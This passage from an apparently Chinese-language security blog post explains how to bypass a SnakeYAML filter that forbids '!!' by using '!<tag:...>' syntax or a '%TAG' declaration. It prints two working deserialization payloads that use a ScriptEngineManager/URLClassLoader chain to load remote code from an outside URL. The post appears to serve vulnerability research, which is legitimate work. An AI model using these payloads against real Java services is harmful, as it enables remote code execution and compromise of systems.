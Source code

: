 ```java
%TAG !o! tag:ben-kiki.org,2000:
---
- !foo "bar"
- !!str "string"
- !o!type "baz"

```

第一种是用`!<TAG>`来表示，只需要一个感叹号，尖括号里就是 TAG。

前面提到 !! 就是用来表示 TAG 的，会自动补全 TAG 前缀`tag:yaml.org,2002:`

所以要想反序列化恶意类就需要这样构造

```java
!<tag:yaml.org,2002:javax.script.ScriptEngineManager> " +
                "[!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL>" +
                " [\"http://b1ue.cn/\"]]]]

```

这样以来就绕过了不允许存在 !! 的限制。

![图片](https://gitee.com/shine05/myblog-gallery/raw/master/img/20210328101448417.png)

再来看第二种，需要在 yaml 中用`%TAG`声明一个 TAG

例如我声明 ! 的tag是 `tag:yaml.org,2002:`

```
%TAG !      tag:yaml.org,2002:

```

后面再调用 `!str`的话实际上就会把 TAG 前缀拼起来得到`tag:yaml.org,2002:str`。

最终我构造的反序列化攻击payload如下

```java
%TAG !      tag:yaml.org,2002:
---
!javax.script.ScriptEngineManager [!java.net.URLClassLoader [[!java.net.URL ["http://b1ue.cn/"]]]]

```

![图片](https://gitee.com/shine05/myblog-gallery/raw/master/img/20210328101610275.png)

同样也只使用了一个!，绕过了!!的限制。

## 参考

1、https://cloud.tencent.com/developer/article/1785056

2、https://blog.csdn.net/u012149894/article/details/85321639

3、https://zhuanlan.zhihu.com/p/82965579

4、https://www.cnblogs.com/nice0e3/p/14514882.html

5、https://www.cnblogs.com/CoLo/p/16225141.html







